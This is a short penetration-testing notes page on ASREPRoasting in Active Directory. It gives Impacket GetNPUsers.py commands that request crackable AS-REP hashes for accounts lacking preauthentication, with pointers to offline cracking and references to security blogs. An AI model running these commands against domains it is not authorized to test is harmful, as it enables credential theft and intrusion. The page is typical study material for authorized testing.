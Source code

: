# Unix Shell

## 01 - Impacket

> [!IMPORTANT] Conditions
> Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper#^0c9a3c|John The Ripper]] or [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/Hashcat#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

Request a Kerberos 5, etype 23, AS-REP hash from an NP user account.

```
$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetNPUsers.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

---
## References

### Hacktricks

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.wiki/en/windows/active-directory-methodology/asreproast.html)

### Hacking Articles

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

### Pentestlab

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)